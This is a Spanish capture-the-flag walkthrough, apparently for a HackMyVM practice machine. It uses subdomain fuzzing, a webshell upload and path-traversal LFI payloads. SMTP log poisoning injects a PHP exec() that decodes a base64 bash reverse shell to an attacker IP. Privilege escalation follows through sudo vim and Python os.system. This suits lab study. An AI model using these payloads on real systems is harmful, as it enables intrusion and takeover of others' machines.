Hacemos el reconocimiento con nmap:
![[Pasted image 20231015104825.png]]
Si intentamos acceder al puerto 80, vemos que se está aplicando virtual hosting, por lo que tenemos que añadir el logan.hmv al /etc/hosts:
![[Pasted image 20231015104929.png]]
![[Pasted image 20231015104958.png]]
Y ahora si nos funciona la web:
![[Pasted image 20231015105019.png]]
Hacemos fuzzing para ver si encontramos algún subdominio:
```bash
wfuzz -c --hc=404 -t 200 --hl=1 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.logan.hmv" -u 192.168.0.37
```
![[Pasted image 20231015105839.png]]
Y añadimos el nuevo subdominio al fichero hosts:
![[Pasted image 20231015105914.png]]
Y esto es lo que tenemos:
![[Pasted image 20231015105937.png]]
Vamos a subir una webshell dentro del apartado para subir archivos, por lo que usamos la de pentest monkey:
![[Pasted image 20231015110229.png]]
![[Pasted image 20231015110104.png]]
Una vez subido, tenemos que encontrar donde se guardó la webshell, por lo que haremos fuzzing, donde vemos el directorio payments:
![[Pasted image 20231015110321.png]]
Y nos encontramos con esto:
![[Pasted image 20231015110442.png]]
Y esto en el payments.php:
![[Pasted image 20231015111111.png]]
En este input vamos a hacer un ataque de intruder para ver el payload que tenemos que utilizar para explotar alguna vulnerabilidad:
![[Pasted image 20231015111342.png]]
Donde tenemos que meter el siguiente payload para explotar un LFI, por lo que usamos este diccionario:
```bash
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
```
![[Pasted image 20231015111556.png]]
Y ahora lo cargamos en burp suite:
![[Pasted image 20231015111650.png]]

```bash
....//....//....//....//....//....//etc/passwd
```
Una vez que ya sabemos que tenemos un LFI, podemos intentar en hacer un log poisoning por el puerto 25, donde fácilmente podamos acceder al directorio /var/log/mail:
```bash
....//....//....//....//....//....//var/log/mail.log
```
![[Pasted image 20231015112723.png]]
Por lo que vamos a hacer un log poisoning al puerto smtp, donde en esta web tenemos unas instrucciones:
![[Pasted image 20231015112417.png]]
Donde se nos dice cómo debemos inyectar un comando:
![[Pasted image 20231015113537.png]]
Por lo que buscamos el one liner de la reverse shell y lo codificamos en base64:
![[Pasted image 20231015113615.png]]
![[Pasted image 20231015113800.png]]
```bash
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4wLjMzLzQ0MyAwPiYxIg==
```
Y ahora con telnet nos conectamos y ejecutamos los siguientes comandos:
```bash
telnet 192.168.0.37 25
MAIL FROM:<mario@gmail.com>
RCPT TO:<?php exec("echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4wLjMzLzQ0MyAwPiYxIg== | base64 -d | bash"); ?>
```
![[Pasted image 20231015115113.png]]
Y ahora si recargamos la página principal inyectando nuevamente el payload para ver el fichero de logs del puerto 25, habremos obtenido una reverse shell:
![[Pasted image 20231015115136.png]]
![[Pasted image 20231015115120.png]]
Y vemos que si ejecutamos el comando sudo -l, podremos ejecutar comandos con vim como root:
[[14 - Escalada de Privilegios con VIM]]
![[Pasted image 20231015115323.png]]
Por tanto ejecutamos el siguiente comando:
```bash
sudo -u logan /usr/bin/vim hola.txt
```
Y ponemos lo siguiente:
![[Pasted image 20231015115631.png]]
Y ya somos el usuario logan:
![[Pasted image 20231015115648.png]]
Si volvemos a ejecutar el comando sudo -l, vemos que esta vez con el usuario logan podemos ejecutar un script:
![[Pasted image 20231015115723.png]]
Y lo que nos permite este script es ejecutar un one liner de algo de python, por ejemplo un print:
![[Pasted image 20231015115909.png]]
Lo que tenemos que hacer es importar la librería os de python y ejecutar algún comando, que puede ser lanzar una bash como root:
```bash
print(__import__('os').system('bash'))
```
![[Pasted image 20231015120412.png]]
